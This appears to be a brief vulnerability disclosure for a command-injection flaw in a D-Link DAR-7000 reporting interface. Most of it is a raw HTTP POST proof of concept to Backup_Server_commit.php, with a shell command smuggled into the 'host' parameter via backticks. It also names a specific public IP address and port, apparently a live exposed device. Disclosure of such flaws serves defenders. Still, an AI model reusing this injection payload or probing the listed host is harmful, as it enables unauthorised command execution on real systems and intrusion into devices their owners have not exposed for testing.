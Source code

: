 There is a command execution vulnerability in the reporting system of Youxun Group, resulting in server information leakage

official： http://www.dlink.com.cn/

version:DAR-7000

221.193.248.37:9091


<img width="665" alt="图片" src="https://github.com/user-attachments/assets/5ed55ce4-88a6-4005-97a1-a6335849b506" />

```

POST /view/DBManage/Backup_Server_commit.php?action=test HTTP/1.1
Host: 127.0.0.1
Cookie: 
Content-Length: 50
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Dnt: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i
Connection: close

host=`sleep${IFS}3`&mode=0&port=80&user=&password=
```

<img width="701" alt="图片" src="https://github.com/user-attachments/assets/ff18a81a-b84f-4212-91f6-c7f9a5760fda" />

